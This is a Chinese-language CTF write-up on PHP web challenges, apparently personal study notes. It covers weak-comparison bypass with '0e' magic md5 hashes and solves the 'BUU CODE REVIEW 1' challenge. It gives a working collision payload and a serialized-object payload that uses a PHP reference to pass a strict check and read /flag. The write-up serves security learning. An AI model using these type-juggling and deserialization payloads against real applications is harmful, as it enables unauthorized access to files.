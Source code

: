 # PHP

## Basic

### POST and GET

* GET参数直接附加在url上，用`&`隔开
* POST参数，HTTP头部添加`Content-Type: application/x-www-form-urlencoded`，报文主体空一行写body，同样用`&`隔开



## 比较绕过

PHP `==`为弱比较，`===`为强比较。比较绕过：https://blog.csdn.net/qq_47804678/article/details/128814377

Refer: https://blog.csdn.net/weixin_44511709/article/details/102912004

* PHP中，`==`弱类型判断
* **当md5结果为`0exxxx`，则php当作科学计数法，永远为0**







### Example 1

Example: BUU CODE REVIEW 1

```php
<?php
/**
 * Created by PhpStorm.
 * User: jinzhao
 * Date: 2019/10/6
 * Time: 8:04 PM
 */

highlight_file(__FILE__);

class BUU {
   public $correct = "";
   public $input = "";

   public function __destruct() {
       try {
           $this->correct = base64_encode(uniqid());
           if($this->correct === $this->input) {
               echo file_get_contents("/flag");
           }
       } catch (Exception $e) {
       }
   }
}

if($_GET['pleaseget'] === '1') {
    if($_POST['pleasepost'] === '2') {
        if(md5($_POST['md51']) == md5($_POST['md52']) && $_POST['md51'] != $_POST['md52']) {
            unserialize($_POST['obj']);
        }
    }
}
```

1. 使用弱相等碰撞
   ```
   pleasepost=2&md51=s1885207154a&md52=s1836677006a&obj=1
   ```

2. 反序列化漏洞

   * 强比较，需要将`input`指向`correct`，创造完全相等
     ```php
     $obj = new BUU;
     $obj->input = &obj->correct;
     echo serialize($obj);
     ```

   * 使用 PHP playground 运行，输出序列化结果
     ```
     O:3:"BUU":2:{s:7:"correct";s:0:"";s:5:"input";R:2;}
     ```

     

